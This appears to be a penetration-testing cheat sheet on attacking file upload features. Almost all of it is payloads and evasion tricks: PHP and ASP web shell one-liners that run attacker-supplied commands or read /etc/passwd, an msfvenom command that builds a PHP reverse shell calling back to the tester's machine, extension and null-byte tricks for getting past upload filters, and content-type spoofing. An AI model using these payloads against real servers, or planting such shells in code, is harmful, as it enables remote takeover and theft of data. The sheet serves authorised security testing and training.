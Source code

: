 # Web Shells

## Web Shell	Description
| Web Shell                                               | Description                           |
|---------------------------------------------------------|---------------------------------------|
| `<?php file_get_contents('/etc/passwd'); ?>`           | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                         | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                   | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                           | PHP Web Shell                         |
| PHP Reverse Shell                                       | PHP Reverse Shell                     |
| Web/Reverse Shells                                      | List of Web Shells and Reverse Shells|

# Bypasses

## Client-Side Bypass	
- [CTRL+SHIFT+C]	Toggle Page Inspector

## Blacklist Bypass	
- `shell.phtml`	Uncommon Extension
- `shell.pHp`	Case Manipulation

## PHP Extensions	
- List of PHP Extensions

## ASP Extensions	
- List of ASP Extensions

## Web Extensions	
- List of Web Extensions

## Whitelist Bypass	
- `shell.jpg.php`	Double Extension
- `shell.php.jpg`	Reverse Double Extension
- `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, …	Character Injection - Before/After Extension

## Content/Type Bypass	
- Web Content-Types	List of Web Content-Types
- Content-Types	List of All Content-Types
- File Signatures	List of File Signatures/Magic Bytes

## Limited Uploads
| Potential Attack | File Types            |
|------------------|-----------------------|
| XSS              | HTML, JS, SVG, GIF   |
| XXE/SSRF         | XML, SVG, PDF, PPT, DOC |
| DoS              | ZIP, JPG, PNG        |
